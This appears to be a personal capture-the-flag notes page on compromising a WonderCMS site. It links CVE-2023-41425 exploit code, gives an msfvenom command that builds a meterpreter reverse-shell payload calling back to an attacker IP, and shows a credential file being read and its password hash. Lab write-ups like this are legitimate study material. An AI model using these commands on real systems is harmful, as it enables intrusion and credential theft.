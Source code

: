 ![[Pasted image 20240816222201.png]]

**NOTHING IS WOKRING!!!!** 😢

## Time to look at Ben's Hints 😥
Basically he says keep looking at the website and it's code 😒
### Nikto

![[Pasted image 20240817083644.png]]

### Checking out the code

![[Pasted image 20240817083717.png]]

![[Pasted image 20240817083732.png]]

So its running WonderCMS.... which has a few CVEs 💰

https://gist.github.com/prodigiousMind/fc69a79629c4ba9ee88a7ad526043413#file-cve-2023-41425-md

HOLY FUCKING COW... WTF... LEARN TO READ.. AND DO WHAT IS SAYS... NOT EVERYTHING IS A VARIABLE 😂

I seen this in the exploit ![[Pasted image 20240817210849.png]] and thought it meant I needed to discover the 'loginURL' alas i was wrong. That literally is the login url 🤣

## Foothold
Actual fucking POC that works
https://github.com/insomnia-jacob/CVE-2023-41425
![[Pasted image 20240817220745.png]]
![[Pasted image 20240817220728.png]]


## Get a better 🐚
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.15.64 LPORT=31337 -f ELF > shell

files the other users own
![[Pasted image 20240817222651.png]]

### back to the beginning
lets go back to the beginning, where we landed, and enumerate from there. usually there is something in the vasinity of where you land on a box and i probably overlooked it. also this shells sucks ass so when i try to do finds i'm unable to scroll up and see everything. i tried a meterpreter session but i crashed metasploit... 

cat /var/www/sea/data/database.js
![[Pasted image 20240817222910.png]]

## cash money 💰💵
we got a hashed password!
```
$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ\/D.GuE4jRIikYiWrD3TM\/PjDnXm4q
```
